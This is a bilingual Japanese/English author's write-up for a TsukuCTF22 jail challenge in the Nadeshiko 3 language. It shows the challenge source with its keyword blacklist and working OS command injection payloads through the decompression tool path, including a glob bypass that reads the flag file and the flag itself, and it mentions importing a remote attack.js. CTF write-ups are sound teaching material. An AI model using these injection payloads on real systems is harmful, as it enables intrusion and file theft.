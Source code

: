 ```yaml
---
title: nako3ndbox
description: なでしこのサンドボックス問題
author: Satoki
genre: Misc
solver: 6
point: 500
---
```



# nako3ndbox

## 問題文
に・ほ・ん・ご・で・あ・そ・ぼ  
`nc tsukuctf.sechack365.com 31418`  

## 難易度
**medium**  

## 作問にあたって
なでしこ3の修正済みである脆弱性を使ったJail問題です。  
もともとは最新版を使い`！「http://ctf.example.com/attack.js」を取り込み`でRCEさせようと思っていましたが、`ナデシコする`でうまく動かないため、見つけた脆弱性を用いる事にしました。  
一応、CVE-2022-41642のバイパスなのでまだCVEはついていません(頑張れば脆弱性なしで解けます)。  

## 解法
なでしこ3を用いたJail問題のようだ。  
配布されたソースは以下のようであった。

```bash
「------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------」と言う

「日本語コード：」と尋ねる
それを入力に代入

ブラックリスト＝「読、開、保存、実行、起動、サーバ、フォルダ、ファイル、ナデシコ、ディレクトリ、flag」を「、」で区切る

ブラックリスト！＝空の間
　　ブラックリストの０から１を配列取り出す
　　もし（入力でそれの出現回数）！＝０ならば
　　　　「日本語の世界からは出しませんよ！！！」と言う
　　　　終了する
　　ここまで
ここまで

「｛入力｝」をナデシコする

終了する
```

入力された文字列をブラックリストで検証し、evalにあたる`ナデシコする`で実行している。  
ブラックリストがない場合、`「ls」を起動`などでRCE可能だが今回は難しい。  
ここで配布されたファイルより、なでしこ3が最新版でなく、3.3.67である点に注目する。  
GitHubのIssuesを見てやると[cnako3の圧縮解凍の問題](https://github.com/kujirahand/nadesiko3/issues/1325)が見つかる。  
複数のシングルクォートを圧縮解凍系の処理に含めることで、OSコマンドインジェクションが可能なようだ。  
この修正を参考に任意コード実行を行う。  
今回は以下のように`圧縮解凍ツールパス`の引数としてコマンドを与える。  

```bash
$ nc tsukuctf.sechack365.com 31418
------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------
日本語コード：圧縮解凍ツールパスは「'';sleep 10;'」。「」を「」へ解凍
/bin/sh: ': not found
/bin/sh: : Permission denied
[実行時エラー]app(1行目): Command failed: ''\''';sleep 10;'' x '' -o'' -y
/bin/sh: ': not found
/bin/sh: : Permission denied
~~~
```

`sleep 10`を行うと10秒スリープした。  
フラグは`flag.txt`にあるので読みだせばよいが、`flag`がブラックリストにある。  
`./f*`などで回避してやればよい。  
コマンドの実行結果がなぜか出てこないことがあるので、`sh`に渡してエラーとして吐き出せばよい。  

```bash
$ nc tsukuctf.sechack365.com 31418
------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------
日本語コード：圧縮解凍ツールパスは「'';sh ./f*;'」。「」を「」へ解凍
/bin/sh: ': not found
./flag.txt: line 1: TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}: not found
/bin/sh: : Permission denied
[実行時エラー]app(1行目): Command failed: ''\''';sh ./f*;'' x '' -o'' -y
/bin/sh: ': not found
./flag.txt: line 1: TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}: not found
/bin/sh: : Permission denied
~~~
```

flagが得られた。  

## TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}

## Abstract
This is a Jail related to a known vulnerability in なでしこ3
First I intended to make a RCE question by `！「http://ctf.example.com/attack.js」を取り込み`. However, `ナデシコする` didn't work well. Thats why I use the vulnerability instead.  

## Solve
This seems Jail with なでしこ3.
The ditributed source code is the following.
```
```
<!-- XXXX:なでしこソース追加 -->  
This program execute the given strings with `ナデシコする` which corresponds to the eval command after given strings are checked.
You could RCE by `「ls」を起動` if it were not checked. We can't do this for this case.
Btw, this is ver 3.3.67 which is not the latest one and this has [an issue related to cnako3](https://github.com/kujirahand/nadesiko3/issues/1325)
This is OS command injection. You can use this vulnerability.

```bash
$ nc tsukuctf.sechack365.com 31418
------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------
日本語コード：圧縮解凍ツールパスは「'';sleep 10;'」。「」を「」へ解凍
/bin/sh: ': not found
/bin/sh: : Permission denied
[実行時エラー]app(1行目): Command failed: ''\''';sleep 10;'' x '' -o'' -y
/bin/sh: ': not found
/bin/sh: : Permission denied
~~~
```

`sleep 10` make the thread sleep for 10 seconds.
As the `flag` is blacklisted, you should specify like `./f*` to get `flag.txt`.
I don't know why but sometimes we can't get the result. So get the result as Error Message through `sh` instead.
```bash
$ nc tsukuctf.sechack365.com 31418
------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------
日本語コード：圧縮解凍ツールパスは「'';sh ./f*;'」。「」を「」へ解凍
/bin/sh: ': not found
./flag.txt: line 1: TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}: not found
/bin/sh: : Permission denied
[実行時エラー]app(1行目): Command failed: ''\''';sh ./f*;'' x '' -o'' -y
/bin/sh: ': not found
./flag.txt: line 1: TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}: not found
/bin/sh: : Permission denied
~~~
```
Now you get the FLAG.

## TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}